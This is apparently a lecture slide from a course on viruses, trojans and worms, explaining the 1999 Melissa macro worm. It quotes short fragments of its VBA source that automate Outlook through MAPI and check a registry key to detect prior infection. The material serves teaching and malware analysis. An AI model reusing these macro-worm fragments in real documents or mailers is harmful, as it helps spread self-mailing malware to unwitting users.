

# Melissa Worm
MAPI stands for “Messaging API”, a way for Windows applications to interface with various e-mail functionalities.
  Dim UngaDasOutlook, DasMapiName, BreakUmOffASlice
Set UngaDasOutlook = CreateObject("Outlook.Application")
Set DasMapiName = UngaDasOutlook.GetNameSpace("MAPI")

A way to tell if it has already infected the host.
  If System.PrivateProfileString("", "HKEY_CURRENT_USER\Software\Microsoft\Office\", "<B style="color:black;background-color:#ffff66"> Melissa</B>?") <> "... by Kwyjibo" Then
Mateti, Viruses, Trojans and Worms
25